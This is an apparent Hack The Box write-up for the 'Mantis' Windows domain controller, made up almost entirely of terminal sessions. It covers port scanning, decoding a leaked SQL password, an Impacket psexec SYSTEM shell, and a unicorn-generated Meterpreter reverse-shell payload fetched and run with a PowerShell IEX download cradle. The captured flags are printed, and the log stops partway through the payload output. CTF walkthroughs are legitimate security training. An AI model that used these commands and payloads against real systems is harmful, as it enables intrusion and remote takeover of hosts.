


#### Mantis

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Enumerate database](#enumerate-database)
- [Impacket-PSExec to Admin](#impacket-psexec-to-admin)
- [Incident Response by enabling RDP](#incident-response-by-enabling-rdp)
- [Forging a Kerberos Ticket MS14-068](#forging-a-kerberos-ticket-ms14-068)

###### Attacker Info

```sh
root@kali:~# ifconfig 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.8  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 113  bytes 24353 (23.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 47  bytes 7581 (7.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 1272 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1272 (1.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.16  netmask 255.255.254.0  destination 10.10.14.16
        inet6 fe80::d30d:f910:84a4:60a1  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::100e  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2  bytes 96 (96.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~# 
```

###### Nmap Scan

```sh
root@kali:~/mantis# nmap -sV -sC -oA mantis.nmap 10.10.10.52
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-28 02:50 EDT
Nmap scan report for 10.10.10.52
Host is up (0.19s latency).
Not shown: 980 closed ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2018-05-28 06:51:07Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: MANTIS
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: mantis.htb.local
|_  Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2018-05-28T02:23:21
|_Not valid after:  2048-05-28T02:23:21
|_ssl-date: 2018-05-28T06:52:04+00:00; -22s from scanner time.
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
8080/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49165/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 47m38s, deviation: 1h47m21s, median: -22s
| ms-sql-info: 
|   10.10.10.52:1433: 
|     Version: 
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: mantis
|   NetBIOS computer name: MANTIS\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: mantis.htb.local
|_  System time: 2018-05-28T02:52:06-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2018-05-28 02:52:03
|_  start_date: 2018-05-27 22:22:57

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 210.53 seconds
root@kali:~/mantis# 
```

```sh
root@kali:~/mantis# nmap -sV -sC -oA mantis.nmap 10.10.10.52 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-28 12:59 EDT
Nmap scan report for 10.10.10.52
Host is up (0.26s latency).
Not shown: 65467 closed ports, 41 filtered ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2018-05-29 04:31:42Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1337/tcp  open  http         Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-ntlm-info:
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: MANTIS
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: mantis.htb.local
|   DNS_Tree_Name: htb.local
|_  Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2018-05-28T02:23:21
|_Not valid after:  2048-05-28T02:23:21
|_ssl-date: 2018-05-29T04:32:44+00:00; -23s from scanner time.
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc        Microsoft Windows RPC
8080/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49164/tcp open  msrpc        Microsoft Windows RPC
49165/tcp open  msrpc        Microsoft Windows RPC
49168/tcp open  msrpc        Microsoft Windows RPC
50255/tcp open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000
| ms-sql-ntlm-info:
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: MANTIS
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: mantis.htb.local
|   DNS_Tree_Name: htb.local
|_  Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2018-05-28T02:23:21
|_Not valid after:  2048-05-28T02:23:21
|_ssl-date: 2018-05-29T04:32:45+00:00; -23s from scanner time.
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 33m54s, deviation: 1h30m43s, median: -23s
| ms-sql-info:
|   10.10.10.52:1433:
|     Version:
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery:
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: mantis
|   NetBIOS computer name: MANTIS\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: mantis.htb.local
|_  System time: 2018-05-29T00:32:42-04:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2018-05-29 00:32:48
|_  start_date: 2018-05-27 22:22:57

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41696.57 seconds
root@kali:~/mantis#
```

###### Web Enumeration


```sh
root@kali:~/mantis# gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.52:1337 -t 30

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.52:1337/
[+] Threads      : 30
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/secure_notes (Status: 301)
```


```sh
root@kali:~/mantis# echo -n NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d
6d2424716c5f53405f504073735730726421
root@kali:~/mantis#
```

```sh
root@kali:~/mantis# echo -n 6d2424716c5f53405f504073735730726421 | xxd -ps -r
m$$ql_S@_P@ssW0rd!root@kali:~/mantis#
root@kali:~/mantis#
```

###### Enumerate database

```sh
root@kali:~/mantis# apt install dbeaver
```

```sh
root@kali:~/mantis# dbeaver &
```


###### Impacket-PSExec to Admin

```sh
root@kali:~/mantis# locate psexec
/usr/share/doc/metasploit-framework/modules/exploit/windows/smb/ms17_010_psexec.md
/usr/share/doc/metasploit-framework/modules/exploit/windows/smb/psexec.md
/usr/share/doc/python-impacket/examples/psexec.py
/usr/share/keimpx/lib/psexec.py
/usr/share/metasploit-framework/lib/msf/core/exploit/smb/client/psexec.rb
/usr/share/metasploit-framework/lib/msf/core/exploit/smb/client/psexec_ms17_010.rb
/usr/share/metasploit-framework/modules/auxiliary/admin/smb/psexec_command.rb
/usr/share/metasploit-framework/modules/auxiliary/admin/smb/psexec_ntdsgrab.rb
/usr/share/metasploit-framework/modules/auxiliary/scanner/smb/psexec_loggedin_users.rb
/usr/share/metasploit-framework/modules/exploits/windows/local/current_user_psexec.rb
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_psexec.rb
/usr/share/metasploit-framework/modules/exploits/windows/smb/psexec.rb
/usr/share/metasploit-framework/modules/exploits/windows/smb/psexec_psh.rb
/usr/share/metasploit-framework/tools/exploit/psexec.rb
/usr/share/nmap/nselib/data/psexec
/usr/share/nmap/nselib/data/psexec/README
/usr/share/nmap/nselib/data/psexec/backdoor.lua
/usr/share/nmap/nselib/data/psexec/default.lua
/usr/share/nmap/nselib/data/psexec/drives.lua
/usr/share/nmap/nselib/data/psexec/examples.lua
/usr/share/nmap/nselib/data/psexec/experimental.lua
/usr/share/nmap/nselib/data/psexec/network.lua
/usr/share/nmap/nselib/data/psexec/nmap_service.c
/usr/share/nmap/nselib/data/psexec/nmap_service.exe
/usr/share/nmap/nselib/data/psexec/nmap_service.vcproj
/usr/share/nmap/nselib/data/psexec/pwdump.lua
/usr/share/nmap/scripts/smb-psexec.nse
/usr/share/set/src/fasttrack/psexec.py
root@kali:~/mantis#
```

```sh
root@kali:~/mantis# /usr/share/doc/python-impacket/examples/psexec.py -h
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

usage: psexec.py [-h] [-c pathname] [-path PATH] [-file FILE] [-debug]
                 [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                 [-dc-ip ip address]
                 target [command [command ...]]

PSEXEC like functionality example using RemComSvc.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  command               command (or arguments if -c is used) to execute at the
                        target (w/o path) - (default:cmd.exe)

optional arguments:
  -h, --help            show this help message and exit
  -c pathname           copy the filename for later execution, arguments are
                        passed in the command option
  -path PATH            path of the command to execute
  -file FILE            alternative RemCom binary (be sure it doesn't require
                        CRT)
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters.
                        If valid credentials cannot be found, it will use the
                        ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)
  -dc-ip ip address     IP Address of the domain controller. If ommited it use
                        the domain part (FQDN) specified in the target
                        parameter
root@kali:~/mantis#
```

```sh
root@kali:~/mantis# /usr/share/doc/python-impacket/examples/psexec.py htb.local/James@10.10.10.52 cmd.exe
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

Password:
[*] Trying protocol 445/SMB...

[*] Requesting shares on 10.10.10.52.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'SYSVOL' is not writable.
[*] Uploading file lJwFpfeR.exe
[-] Error uploading file lJwFpfeR.exe, aborting.....
[-] Error performing the installation, cleaning up: 'NoneType' object has no attribute 'split'
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd ..\..\Users

C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is 1A7A-6541

 Directory of C:\Users

09/01/2017  10:19 AM    <DIR>          .
09/01/2017  10:19 AM    <DIR>          ..
09/01/2017  01:39 AM    <DIR>          Administrator
09/01/2017  09:02 AM    <DIR>          Classic .NET AppPool
09/01/2017  10:19 AM    <DIR>          james
09/01/2017  09:15 AM    <DIR>          MSSQL$SQLEXPRESS
07/14/2009  12:57 AM    <DIR>          Public
               0 File(s)              0 bytes
               7 Dir(s)   1,159,831,552 bytes free

C:\Users>cd Administrator\Desktop

C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 1A7A-6541

 Directory of C:\Users\Administrator\Desktop

09/01/2017  02:10 PM    <DIR>          .
09/01/2017  02:10 PM    <DIR>          ..
09/01/2017  10:16 AM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)   1,159,831,552 bytes free

C:\Users\Administrator\Desktop>type root.txt
209dc756ee5c09a9967540fe18d15567
C:\Users\Administrator\Desktop>
C:\Users\Administrator\Desktop>cd ..\..\james\Desktop

C:\Users\james\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 1A7A-6541

 Directory of C:\Users\james\Desktop

09/01/2017  02:10 PM    <DIR>          .
09/01/2017  02:10 PM    <DIR>          ..
09/01/2017  10:19 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   1,159,700,480 bytes free

C:\Users\james\Desktop>type user.txt
8a8622e2872d13d1162fbe92ce38f54d
C:\Users\james\Desktop>
```

```sh
C:\>net group "Domain Admins"
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator
The command completed successfully.


C:\>
```

```sh
C:\>net group "Enterprise Admins"
Group name     Enterprise Admins
Comment        Designated administrators of the enterprise

Members

-------------------------------------------------------------------------------
Administrator
The command completed successfully.


C:\>
```

```sh
C:\>net user James
User name                    james
Full Name                    James
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/31/2017 8:12:03 PM
Password expires             Never
Password changeable          9/1/2017 8:12:03 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   12/24/2017 10:39:48 AM

Logon hours allowed          All

Local Group Memberships      *Remote Desktop Users
Global Group memberships     *Domain Users
The command completed successfully.


C:\>
```

###### Incident Response by enabling RDP

```sh
root@kali:~/mantis# git clone https://github.com/trustedsec/unicorn.git
Cloning into 'unicorn'...
remote: Counting objects: 340, done.
remote: Total 340 (delta 0), reused 0 (delta 0), pack-reused 340
Receiving objects: 100% (340/340), 163.94 KiB | 1.08 MiB/s, done.
Resolving deltas: 100% (215/215), done.
root@kali:~/mantis#
root@kali:~/mantis# cd unicorn/
root@kali:~/mantis/unicorn# ls
CHANGELOG.txt  CREDITS.txt  LICENSE.txt  README.md  unicorn.py
root@kali:~/mantis/unicorn#
```

```sh
root@kali:~/mantis/unicorn# python unicorn.py -h
[!] It appears you did not follow the right syntax for Unicorn. Try again, run python unicorn.py for all usage.
root@kali:~/mantis/unicorn# python unicorn.py

                                                         ,/
                                                        //
                                                      ,//
                                          ___   /|   |//
                                      `__/\_ --(/|___/-/
                                   \|\_-\___ __-_`- /-/ \.
                                  |\_-___,-\_____--/_)' ) \
                                   \ -_ /     __ \( `( __`\|
                                   `\__|      |\)\ ) /(/|
           ,._____.,            ',--//-|      \  |  '   /
          /     __. \,          / /,---|       \       /
         / /    _. \  \        `/`_/ _,'        |     |
        |  | ( (  \   |      ,/\'__/'/          |     |
        |  \  \`--, `_/_------______/           \(   )/
        | | \  \_. \,                            \___/\
        | |  \_   \  \                                 \
        \ \    \_ \   \   /                             \
         \ \  \._  \__ \_|       |                       \
          \ \___  \      \       |                        \
           \__ \__ \  \_ |       \                         |
           |  \_____ \  ____      |                        |
           | \  \__ ---' .__\     |        |               |
           \  \__ ---   /   )     |        \              /
            \   \____/ / ()(      \          `---_       /|
             \__________/(,--__    \_________.    |    ./ |
               |     \ \  `---_\--,           \   \_,./   |
               |      \  \_ ` \    /`---_______-\   \\    /
                \      \.___,`|   /              \   \\   \
                 \     |  \_ \|   \              (   |:    |
                  \    \      \    |             /  / |    ;
                   \    \      \    \          ( `_'   \  |
                    \.   \      \.   \          `__/   |  |
                      \   \       \.  \                |  |
                       \   \        \  \               (  )
                        \   |        \  |              |  |
                         |  \         \ \              I  `
                         ( __;        ( _;            ('-_';
                         |___\        \___:            \___:


aHR0cHM6Ly93d3cuYmluYXJ5ZGVmZW5zZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDUvS2VlcE1hdHRIYXBweS5qcGc=


-------------------- Magic Unicorn Attack Vector v3.1 -----------------------------

Native x86 powershell injection attacks on any Windows platform.
Written by: Dave Kennedy at TrustedSec (https://www.trustedsec.com)
Twitter: @TrustedSec, @HackingDave
Credits: Matthew Graeber, Justin Elze, Chris Gates

Happy Magic Unicorns.

Usage: python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>
PS Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443
PS Down/Exec: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe
Macro Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 macro
Macro Example CS: python unicorn.py <cobalt_strike_file.cs> cs macro
Macro Example Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode macro
HTA Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 hta
HTA Example CS: python unicorn.py <cobalt_strike_file.cs> cs hta
HTA Example Shellcode: python unicorn.py <path_to_shellcode.txt>: shellcode hta
DDE Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 dde
CRT Example: python unicorn.py <path_to_payload/exe_encode> crt
Custom PS1 Example: python unicorn.py <path to ps1 file>
Custom PS1 Example: python unicorn.py <path to ps1 file> macro 500
Cobalt Strike Example: python unicorn.py <cobalt_strike_file.cs> cs (export CS in C# format)
Custom Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode (formatted 0x00)
Help Menu: python unicorn.py --help

root@kali:~/mantis/unicorn#
root@kali:~/mantis/unicorn# python unicorn.py windows/meterpreter/reverse_https 10.10.14.16 5566
[*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...

                                                         ,/
                                                        //
                                                      ,//
                                          ___   /|   |//
                                      `__/\_ --(/|___/-/
                                   \|\_-\___ __-_`- /-/ \.
                                  |\_-___,-\_____--/_)' ) \
                                   \ -_ /     __ \( `( __`\|
                                   `\__|      |\)\ ) /(/|
           ,._____.,            ',--//-|      \  |  '   /
          /     __. \,          / /,---|       \       /
         / /    _. \  \        `/`_/ _,'        |     |
        |  | ( (  \   |      ,/\'__/'/          |     |
        |  \  \`--, `_/_------______/           \(   )/
        | | \  \_. \,                            \___/\
        | |  \_   \  \                                 \
        \ \    \_ \   \   /                             \
         \ \  \._  \__ \_|       |                       \
          \ \___  \      \       |                        \
           \__ \__ \  \_ |       \                         |
           |  \_____ \  ____      |                        |
           | \  \__ ---' .__\     |        |               |
           \  \__ ---   /   )     |        \              /
            \   \____/ / ()(      \          `---_       /|
             \__________/(,--__    \_________.    |    ./ |
               |     \ \  `---_\--,           \   \_,./   |
               |      \  \_ ` \    /`---_______-\   \\    /
                \      \.___,`|   /              \   \\   \
                 \     |  \_ \|   \              (   |:    |
                  \    \      \    |             /  / |    ;
                   \    \      \    \          ( `_'   \  |
                    \.   \      \.   \          `__/   |  |
                      \   \       \.  \                |  |
                       \   \        \  \               (  )
                        \   |        \  |              |  |
                         |  \         \ \              I  `
                         ( __;        ( _;            ('-_';
                         |___\        \___:            \___:


aHR0cHM6Ly93d3cuYmluYXJ5ZGVmZW5zZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDUvS2VlcE1hdHRIYXBweS5qcGc=


Written by: Dave Kennedy at TrustedSec (https://www.trustedsec.com)
Twitter: @TrustedSec, @HackingDave

Happy Magic Unicorns.

[********************************************************************************************************]

				-----POWERSHELL ATTACK INSTRUCTIONS----

Everything is now generated in two files, powershell_attack.txt and unicorn.rc. The text file contains  all of the code needed in order to inject the powershell attack into memory. Note you will need a place that supports remote command injection of some sort. Often times this could be through an excel/word  doc or through psexec_commands inside of Metasploit, SQLi, etc.. There are so many implications and  scenarios to where you can use this attack at. Simply paste the powershell_attack.txt command in any command prompt window or where you have the ability to call the powershell executable and it will give a shell back to you. This attack also supports windows/download_exec for a payload method instead of just Meterpreter payloads. When using the download and exec, simply put python unicorn.py windows/download_exec url=https://www.thisisnotarealsite.com/payload.exe and the powershell code will download the payload and execute.

Note that you will need to have a listener enabled in order to capture the attack.

[*******************************************************************************************************]

[*] Exported powershell output code to powershell_attack.txt.
[*] Exported Metasploit RC file as unicorn.rc. Run msfconsole -r unicorn.rc to execute and create listener.


root@kali:~/mantis/unicorn# ls
CHANGELOG.txt  CREDITS.txt  LICENSE.txt  powershell_attack.txt  README.md  unicorn.py  unicorn.rc
root@kali:~/mantis/unicorn#
```

```sh
root@kali:~/mantis/unicorn# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.52 - - [28/May/2018 13:53:37] "GET /powershell_attack.txt HTTP/1.1" 200 -
```

```sh
C:\>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/powershell_attack.txt')"

IsPublic IsSerial Name                                     BaseType
-------- -------- ----                                     --------
True     True     Byte[]                                   System.Array
65011712
65011713
65011714
65011715
65011716
65011717
65011718
65011719
65011720
65011721
65011722
65011723
65011724
65011725
65011726
65011727
65011728
65011729
65011730
65011731
65011732
65011733
65011734
65011735
65011736
65011737
65011738
65011739
65011740
65011741
65011742
65011743
65011744
65011745
65011746
65011747
65011748
65011749
65011750
65011751
65011752
65011753
65011754
65011755
65011756
65011757
65011758
65011759
65011760
65011761
65011762
65011763
65011764
65011765
65011766
65011767
65011768
65011769
65011770
65011771
65011772
65011773
65011774
65011775
65011776
65011777
65011778
65011779
65011780
65011781
65011782
65011783
65011784
65011785
65011786
65011787
65011788
65011789
65011790
65011791
65011792
65011793
65011794
65011795
65011796
65011797
65011798
65011799
65011800
65011801
65011802
65011803
65011804
65011805
65011806
65011807
65011808
65011809
65011810
65011811
65011812
65011813
65011814
65011815
65011816
65011817
65011818
65011819
65011820
65011821
65011822
65011823
65011824
65011825
65011826
65011827
65011828
65011829
65011830
65011831
65011832
65011833
65011834
65011835
65011836
65011837
65011838
65011839
65011840
65011841
65011842
65011843
65011844
65011845
65011846
65011847
65011848
65011849
65011850
65011851
65011852
65011853
65011854
65011855
65011856
65011857
65011858
65011859
65011860
65011861
65011862
65011863
65011864
65011865
65011866
65011867
65011868
65011869
65011870
65011871
65011872
65011873
65011874
65011875
65011876
65011877
65011878
65011879
65011880
65011881
65011882
65011883
65011884
65011885
65011886
65011887
65011888
65011889
65011890
65011891
65011892
65011893
65011894
65011895
65011896
65011897
65011898
65011899
65011900
65011901
65011902
65011903
65011904
65011905
65011906
65011907
65011908
65011909
65011910
65011911
65011912
65011913
65011914
65011915
65011916
65011917
65011918
65011919
65011920
65011921
65011922
65011923
65011924
65011925
65011926
65011927
65011928
65011929
65011930
65011931
65011932
